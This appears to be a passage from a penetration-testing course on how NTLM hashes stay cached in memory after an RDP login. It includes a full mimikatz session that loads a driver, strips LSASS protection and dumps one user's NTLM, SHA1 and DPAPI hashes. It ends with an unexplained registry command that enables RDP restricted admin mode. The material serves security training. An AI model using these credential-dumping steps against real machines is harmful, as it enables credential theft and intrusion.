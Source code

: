When an RDP connection is created, the NTLM hashes will reside in memory for the duration of the session. The session does not terminate without a proper logout, which means simply disconnecting from the sessions will leave the hashes in memory. This creates an attack surface in which we can harvest the credentials if we compromise the machine.

Let's examine how the _dave_ user's credentials are handled on the appsrv01 target machine. If we run C:\Tools\mimikatz.exe from an administrative console, disable the LSA protection (!processprotect), and dump credentials (sekurlsa::logonpasswords), we'll find the NTLM hash of the _dave_ user:

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # !+
[*] 'mimidrv' service not present
[+] 'mimidrv' service successfully registered
[+] 'mimidrv' service ACL to everyone
[+] 'mimidrv' service started

mimikatz # !processprotect /process:lsass.exe /remove
Process : lsass.exe
PID 532 -> 00/00 [0-0-0]

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 2225141 (00000000:0021f3f5)
Session           : RemoteInteractive from 2
User Name         : dave
Domain            : corp1
Logon Server      : DC01
Logon Time        : 3/18/2020 3:02:47 PM
SID               : S-1-5-21-1364860144-3811088588-1134232237-2102
        msv :
         [00000003] Primary
         * Username : dave
         * Domain   : corp1
         * NTLM     : 2892d26cdf84d7a70e2eb3b9f05c425e
         * SHA1     : a188967ac5edb88eca3301f93f756ca8e94013a3
         * DPAPI    : 6904835e1ba09b07bbef109c34d515d6
...
```

> Listing 1 - NTLM credentials in memory after RDP login

In this case, we expected these cached credentials. This means that if we happen to compromise a well-used server (like a _jump server_), we could dump any of those cached credentials as well.

This example highlights an _interactive login_ scenario.[1](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5379-1) Since we ran it over RDP from a different machine, it's also considered a _remote login_. As previously mentioned, clear text credentials are required for all interactive logins.

In an attempt to prevent attackers from stealing credentials on a compromised server, Microsoft introduced RDP with _restricted admin mode_,[2](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5379-2) which allows system administrators to perform a _network login_ with RDP.


[appsrv01]: PS C:\Users\admin\Documents> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
[appsrv01]: PS C:\Users\admin\Documents> Exit